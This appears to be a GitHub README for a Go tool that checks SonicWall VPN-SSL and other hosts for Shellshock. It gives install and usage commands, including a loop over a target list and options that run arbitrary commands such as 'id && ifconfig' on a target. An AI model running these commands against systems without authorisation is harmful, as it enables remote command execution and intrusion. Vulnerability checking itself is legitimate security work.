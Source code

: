 # gocheckshock
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./main -i ; done
```
### Simple command - Default -c echo
```
▶ ./main -i x.x.x.x
```
### With commands
```
▶ ./main -i x.x.x.x -c id
▶ ./main -i x.x.x.x -c 'id && ifconfig'
```
